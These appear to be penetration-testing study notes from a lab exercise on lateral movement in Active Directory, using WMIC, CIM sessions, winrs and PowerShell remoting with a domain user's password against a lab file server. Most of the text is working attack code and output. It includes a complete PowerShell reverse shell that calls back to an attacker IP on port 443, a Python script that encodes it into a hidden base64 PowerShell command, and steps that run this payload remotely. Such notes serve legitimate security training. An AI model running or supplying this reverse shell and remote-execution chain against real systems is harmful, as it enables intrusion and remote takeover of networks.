 # Lateral Movement in Active Directory

### WMIC & WinRM

WMI is great for creating processes on a remote windows machine using either a password or hash. The authentication must be part of the Local Administrators. It uses port 135 for remote procedure calls.

We'll instruct wmic to launch a calculator, "calc" instance with the process call create keywords. It is important to note, that the machine we are attacking is a server with the hostname Files04. We are attemping to move laterally from our current machine, to this new server.

We can test the command by connecting as jeff on CLIENT74.

```bash
C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

The WMI job returned the PID of the newly created process and a return value of "0", meaning that the process has been created successfully.

Translating this attack into PowerShell syntax requires a few extra details.

First, We need to create a PSCredential object that will store our session username and password.

To do that, we will first store the username and password in variables. Then, we will secure the password via the ConvertTo-SecureString cmdlet. Finally, we'll create a new PSCredential object with the username variable and secureString object.
```bash
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

Now that we have our PSCredential object, we need to create a Common Information Model (CIM) via the New-CimSession cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the New-CimSessionOption cmdlet on the first line. On the second line, we'll create the new session, New-Cimsession against our target IP, using -ComputerName and supply the PSCredential object (-Credential $credential) along with the session options (-SessionOption $Options). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```bash
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

As a final step, we need to tie together all the arguments we configured previously by issuing the Invoke-CimMethod cmdlet and supplying Win32_Process to the ClassName and Create to the MethodName. To send the argument, we wrap them in @{CommandLine =$Command}.

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

To simulate the technique, we can connect to CLIENT74 as jeff and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```bash
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```bash
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.244",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Once we have saved the Python script, we can run it and retrieve the output to use later.

```bash
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'; # Powershell encoded reverse shell

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

From the output, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

Nice! We indeed managed to move laterally and gain privileges as the jen domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as winrs (Windows Remote Shell). Note that for WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the -r: argument and the username with -u: and password with -p. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as jeff on CLIENT74 and provide jen's credentials as command arguments.

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse-shell we wrote earlier.

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID.

```bash
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

---

#### Permissions Mapped to Remote Execution tool

Administrators -> psexec || sc 
Remote Management Users -> winrm

